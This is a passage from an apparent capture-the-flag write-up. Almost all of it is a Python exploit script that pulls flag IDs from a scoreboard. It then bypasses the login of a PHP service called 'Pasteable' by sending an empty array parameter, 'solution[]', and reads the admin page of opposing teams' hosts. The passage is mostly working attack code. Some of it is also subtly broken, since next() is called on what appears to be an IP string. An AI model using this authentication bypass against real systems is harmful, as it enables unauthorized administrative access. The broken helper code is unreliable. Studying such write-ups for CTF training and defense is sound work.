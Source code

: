 ## Exploit:

Our exploit takes a command line argument: the IP of an enemy team, and takes from the `attack.json` file the username that it will use to log in.

```python
#!/usr/bin/env python3

import random
import string
import sys
import requests
import json
from pwn import *
from Crypto.Hash import SHA256
import sys

def get_flag_ids(team_id, service_name):
	url = "https://scoreboard.ctf.saarland/attack.json"
	try:
		response = requests.get(url)
		response.raise_for_status()
		data = response.json()
		if "flag_ids" in data and service_name in data["flag_ids"]: 
			if team_id in [team["id"] for team in data["teams"]]:
				for team in data["teams"]:
					if team["id"] == team_id:
						team_ip = next(team["ip"])
				return data["flag_ids"][service_name].get(team_ip, {})
		else:
			print("Invalid team_id or service_name")
	except requests.exceptions.RequestException as e:
		print(f"Error: {e}")

def get_data(team_id, service_name, flag_id):
	url = "https://scoreboard.ctf.saarland/attack.json"
	try:
		response = requests.get(url)
		response.raise_for_status()
		data = response.json()
		for team in data["teams"]:
			if team["id"] == team_id:
				team_ip = next(team["ip"]) 
		return data["flag_ids"][service_name][team_ip][flag_id]
	except requests.exceptions.RequestException as e:
		print(f"Error: {e}")

host = sys.argv[1]
team = (int(host.split(".")[1])-32)*200 + int(host.split(".")[2])
print("I need to attack the team {} with host: {}".format(team,host))
service = 'Pasteable'
  
for id in get_flag_ids(team,service):
	username = get_data(team, service, id)
	s = requests.Session() 
	
	res = s.post(f"http://{host}:8080/func/challenge.php", 
				data={"username":username})
	res = s.post(f"http://{host}:8080/func/login.php", 
				data={"username":username, "solution[]":b""})
	res = s.get(f"http://{host}:8080/admin/")
	
	print(res.text, flush=True)
```